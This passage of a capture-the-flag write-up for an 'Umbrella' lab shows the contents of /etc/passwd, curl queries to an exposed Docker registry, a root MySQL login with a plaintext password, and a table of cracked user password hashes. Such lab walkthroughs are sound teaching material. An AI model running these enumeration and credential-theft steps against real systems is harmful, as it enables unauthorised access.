 ```
DB_USER=root

```

the file `/etc/passwd` get us the user `node`:

```
# cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash

```

### Method 2 - Manifest and Blobs

Get all the tags: `curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list`

Once we get the "latest" tag we can start extracting the manifest and blobs.

- **Manifest** of a docker image describes the layers inside an image.
- **Blobs** refer to binary large objects, which are essentially the individual layers that compose a Docker image.

By looking at the manifest `curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest` we can see the environment variables being set:

![](envs.png)

## Foothold

After obtaining the credentials. lets connect to the mysql database: `mysql -u root -D timetracking -h 10.10.247.66 -p'Ng1-f3!Pe7-e5?Nf3xe5'`
We have table users with the following users:

```
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 | Password1
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 | letmein
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 | sunshine1
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 | sandwich
+----------+----------------------------------+-------+
```
